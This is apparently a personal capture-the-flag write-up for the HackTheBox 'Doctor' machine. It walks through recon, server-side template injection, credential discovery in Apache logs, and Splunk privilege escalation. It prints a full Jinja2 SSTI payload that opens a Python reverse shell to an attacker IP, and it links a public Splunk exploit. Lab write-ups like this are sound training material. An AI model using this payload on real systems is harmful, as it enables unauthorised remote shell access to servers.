 ```yaml
---
published: true
---
```

# HackTheBox Doctor 10.10.10.209

## Getting user.txt

Full nmap scan results (TCP):

![](https://github.com/sdcampbell/sdcampbell.github.io/tree/master/images/2021-02-02_12-47.png)

On the website on port 80, I found an email address, info@doctors.htb. I added the hostname to my /etc/hosts file.

After adding the site to my hosts file, and getting pissed off at Chrome browser which refused to show the site and kept sending me to a Verizon search page, I opened it in Firefox and found I was referred to the following site:

![](images/2021-02-02_12-55.png)

I checked for SQL injection in the login form and didn't find any, so I clicked the link to "Sign Up Now".

The messages reflected whatever you put into the title and content field back to the page. I tested for XSS and SSTI (Server Side Template Injection), but didn't find anything right away. For now I'm going to run FFUF to find new directories, and maybe come back to testing the messaging form later.

FFUF found an additional directory, /archive but it was a blank page.

I entered another message as seen below:

![](images/2021-02-02_13-21.png)

After entering the SSTI payloads in the above message, I went back to the /archive URL and found the following in the page source:

![](images/2021-02-02_13-23.png)

It looks like we have template injection, either Jinja2 or Twig. The Tplmap tool won't work here since the detection is on a different URL from the injection point. I had some recent experience playing around with SSTI on pentesterlab.com. After some manual trial and error, I finally got a reverse shell using the following payload:

```
{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.19\",5555));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\", \"-i\"]);'")}}{%endif%}{% endfor %}
```

![](images/2021-02-02_13-39.png)

Did you notice that the current user, web, is a member of the 'adm' group? Members of the adm group can usually view files in /var/log. I found a password in /var/log/apache2/backup file:

![](images/2021-02-02_14-02.png)

I already know there is a user named 'shaun' by looking at the /home directory. I got the user.txt flag by su shaun and using the password found in the backup file:

![](images/2021-02-02_14-04.png)

I then upgraded my shell using the following:

```
python3 -c 'import pty; pty.spawn("/bin/sh")'
```

After looking for the obvious, includeing 'sudo -l' to see if I can use sudo, I decided to circle back to Splunk which was found earlier running on port 8089.

After doing some searching, I find the following exploit: https://github.com/cnotin/SplunkWhisperer2/tree/master/PySplunkWhisperer2

Run the exploit:

![](images/2021-02-02_14-56.png)

Catch a root shell:

![](images/2021-02-02_14-57.png)
